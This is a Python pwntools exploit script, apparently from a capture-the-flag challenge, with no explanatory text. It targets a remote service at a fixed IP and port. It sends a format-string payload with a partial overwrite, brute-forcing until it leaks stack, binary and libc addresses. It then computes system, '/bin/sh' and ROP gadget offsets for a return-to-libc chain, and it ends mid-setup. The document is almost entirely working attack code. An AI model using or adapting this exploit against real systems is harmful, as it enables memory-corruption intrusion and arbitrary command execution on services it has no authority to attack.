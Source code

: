 ```python!=
def bruteforce(payload: bytes):
    status = ""
    msg = ""
    #gdb.attach(p,script)
    #a = p.recv()
    p.sendline(b'1')
    time.sleep(0.2)
    b =p.recv()
    p.send(payload)
    time.sleep(0.2)
    c = p.recv()
    #print(c)
    (p.recv())
    p.sendline(b'4')
    time.sleep(0.2)
    try:
        msg = p.recv()
        print(msg)
        if b'AAAA' in msg: status = "success"
    except Exception:
        status = 'fail'
    return status




while True:
    #p = process()
    p = remote("45.153.243.57", 13337)
    a = p.recv()
    (p.recv())
    payload = b'%6$p.%7$p.%45$p'.ljust(16,b'|')
    payload += b'A'*(256-len(payload))
    payload += b'\x20\x90'
    print(payload)
    status = bruteforce(payload)
    if status == 'success': break
    else: p.close()
(p.recv())
p.sendline(b'4')
leak = []
leak = p.recvuntil(b'|').strip(b'|').decode().split('.')
print(leak)
stack_leak = int(leak[0],base=16)
main_leak = int(leak[1],base=16)
libc_leak = int(leak[2],base=16)
log.info("Leak stack: %s", hex(stack_leak))
log.info("Main leak: %s", hex(main_leak))
log.info("Libc leak: %s", hex(libc_leak))


#################################################
#gdb.attach(p,script)
rbp_stack = stack_leak - 0x130
rip_stack = stack_leak - 0x128

sys_func = libc_leak + 0x26fd0
bin_sh = libc_leak + 0x1ae908
pop_rdi = (libc_leak -0x1d90) + 0x23e5
ret = pop_rdi + 1

destination = stack_leak-0xb0
destination = hex(destination)[-4:]
```